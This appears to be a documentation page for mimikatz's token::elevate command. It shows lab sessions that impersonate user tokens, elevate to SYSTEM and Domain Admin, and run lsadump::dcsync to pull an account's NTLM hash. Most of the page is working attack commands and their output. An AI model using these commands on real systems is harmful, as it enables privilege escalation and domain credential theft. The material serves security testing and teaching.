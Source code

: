 # elevate

`token::elevate` can be used to impersonate a token. By default it will elevate permissions to `NT AUTHORITY\SYSTEM`. It has the following command line arguments:

* `/id`: Impersonate the specified token
* `/process`: Impersonate the token of the running process
* `/user`: Impersonate the token of the specified user
* `/admin`: Impersonate a token of builtin local administrators
* `/domainadmin`: Impersonate a token with Domain Admin privileges
* `/enterpriseadmin`: Impersonate a token with Enterprise Admin privileges
* `/localservice`: `NT AUTHORITY\LOCAL SERVICE` token impersonation
* `/networkservice`: `NT AUTHORITY\NETWORK SERVICE` token impersonation

## Impersonate Token in a New Thread

List current token:

```
mimikatz # token::whoami
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : no token
```

The output shows:

- The primary (process) token belongs to the current user.
- There is no impersonation (thread) token.

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Use a primary token of the target user (one that is linked to a logonsession):

```
mimikatz # token::elevate /id:457263
Token Id  : 457263
User name :
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
 -> Impersonated !
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : {0;000563b2} 2 F 3874634     winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Impersonation (Delegation)
```

The output shows:

- The primary (process) token is still the same of the initial user. The `token::elevate` command will not change the primary token.
- There is now a new impersonation (thread) token for the impersonated user. The impersonation level is `delegation`. It's therefore possible to use the token in a new thread and access local and remote resources.
- It's not possible to start a new command (`misc::cmd`) as the impersonated user, because the impersonated token is an impersonation token and no process token.
- All mimikatz commands are now using the impersonation token for new threads.

After impersonating the user (who is domain admin), it's e.g. possible to use `lsadump::dcsync`:

```
mimikatz # lsadump::dcsync /user:cclear
[DC] 'winattacklab.local' will be the domain
[DC] 'DC1.winattacklab.local' will be the DC server
[DC] 'cclear' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Celaine Clear

** SAM ACCOUNT **

SAM Username         : cclear
User Principal Name  : cclear@winattacklab.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 5/31/2023 6:51:25 AM
Object Security ID   : S-1-5-21-1345929560-157546789-2569868433-1117
Object Relative ID   : 1117

Credentials:
  Hash NTLM: 760ca1371ac4c506d31b5ec1a09f806d
[...]
```

## Other Examples

By default, `token::elevate` elevates to `SYSTEM`:

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

- All mimikatz commands (new threads) are therefore executed as `SYSTEM`.

Elevate to any logged in domain admin:

```
mimikatz # token::elevate /domainadmin
Token Id  : 0
User name :
SID name  : hacklab\Domain Admins

4512    {0;0007212c} 2 D 476947         hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500   (29g,26p)       Primary
 -> Impersonated !
 * Process Token : {0;080fd6c8} 3 F 137701065   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;0007212c} 2 D 137785083   hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500
(29g,26p)       Impersonation (Delegation)
```
